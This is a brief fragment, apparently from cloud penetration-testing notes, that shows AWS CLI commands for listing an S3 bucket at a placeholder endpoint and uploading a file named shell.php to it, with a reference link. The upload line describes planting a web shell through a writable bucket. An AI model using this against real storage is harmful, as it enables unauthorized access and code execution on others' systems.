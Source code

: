 
`$ aws s3 ls --endpoint=http[s]://<s3_bucket_URL>`

`$ aws s3 cp shell.php --endpoint=http[s]://<s3_bucket_URL>`
## References

https://hackingthe.cloud/aws/general-knowledge/aws_organizations_defaults/